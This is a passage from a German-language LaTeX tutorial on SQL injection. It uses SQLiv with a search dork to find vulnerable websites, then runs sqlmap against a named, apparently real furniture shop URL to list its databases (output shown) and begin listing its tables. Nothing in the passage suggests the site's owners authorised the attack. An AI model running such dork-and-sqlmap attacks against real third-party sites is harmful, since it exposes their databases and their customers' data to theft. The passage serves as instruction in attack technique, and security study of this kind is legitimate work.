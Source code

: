 Standardmäßig durchsucht SQLiv die erste Seite in der Suchmaschine, die bei Google 10 Websites pro Seite anzeigt. Daher wird hier das Argument -p 100 definiert, um 10 Seiten (100 Sites) zu durchsuchen. Basierend auf dem oben angegebenen Dork wird ein Ergebnis von verwundbaren URLs erhaltet, das wie folgt aussieht:

\begin{figure}[h]
	\centering
	\texttt{[image: sqllive.png]}
	\caption{Durchsuchung mit SQLiv}
\end{figure}

\newpage

\textbf{Schritt 2: SQL-Injektion mit SQLMAP}

Der Angriff wird mit SQLMap ausgeführt. Zuerst muss den Datenbankname zum Vorschein gebracht werden, der in der Datenbank Tabellen und Spalten enthält, die die Daten enthalten.

Ziel-URL: \texttt{http://www.acfurniture.com/item.php?id=25}\\

\textbf{A. Datenbankname aufdecken}\\

\begin{LaTeXCode}[caption={Aufdeckung vom Datenbankname},captionpos=b, label=LaTeXCode:advd1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" --dbs
\end{LaTeXCode}

Mit dem oben gegebenen Befehl wurde der Datenbankname erhalten:

\begin{table}[h]
	\centering
	\begin{tabular}{l}
		available databases         \\
		{[}*{]} acfurniture         \\
		{[}*{]} information\_schema
	\end{tabular}
	\caption{Ergebnis: Datenbankname}
\end{table}

\textbf{B. Tabellenname aufdecken}\\

\begin{LaTeXCode}[caption={Aufdeckung vom Tabellenname},captionpos=b, label=LaTeXCode:advt1][numbers=none]
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" -D acfurniture --tables
\end{LaTeXCode}

Das Ergebnis sollte so aussehen:

